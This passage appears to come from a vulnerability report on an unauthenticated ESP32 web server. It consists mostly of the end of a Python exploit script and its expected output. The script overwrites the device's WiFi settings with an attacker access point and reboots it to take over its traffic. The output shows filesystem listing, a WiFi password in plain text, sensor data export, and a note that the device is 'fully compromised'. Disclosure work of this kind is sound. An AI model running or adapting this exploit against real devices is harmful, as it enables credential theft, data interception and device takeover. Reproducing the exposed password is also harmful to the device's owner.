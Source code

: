 ```python
        data=json.dumps(payload)
    )
    if r.status_code == 200:
        print("    [✓] WiFi credentials changed to attacker AP!")
    
    # 6. Reboot to apply changes
    print("\n[+] Step 6: Rebooting device")
    r = requests.post(f"{BASE_URL}/restart")
    if r.status_code == 200:
        print("    [✓] Device rebooting - will connect to attacker AP")
    
    print("\n[!] EXPLOITATION COMPLETE - Device fully compromised!")
    print("[!] Device will now connect to attacker-controlled WiFi")
    print("[!] All future data will be intercepted")

if __name__ == "__main__":
    exploit_unauth_access()
```

**Expected Output:**
```
[*] Exploiting unauthenticated ESP32 web server

[+] Step 1: Accessing main dashboard
    [✓] Full access to dashboard - No auth required!

[+] Step 2: Listing filesystem
    [✓] Found 4 files:
        - /data.json (245678 bytes)
        - /labels.json (156 bytes)
        - /wifi_config.json (45 bytes)
        - /backfill.meta (8 bytes)

[+] Step 3: Stealing WiFi credentials
    [✓] WiFi SSID: 2.4
    [✓] WiFi Password: P1rates15

[+] Step 4: Exporting all sensor data
    [✓] Exported 540 sensor readings

[+] Step 5: Hijacking WiFi connection
    [✓] WiFi credentials changed to attacker AP!

[+] Step 6: Rebooting device
    [✓] Device rebooting - will connect to attacker AP

[!] EXPLOITATION COMPLETE - Device fully compromised!
```

### Remediation

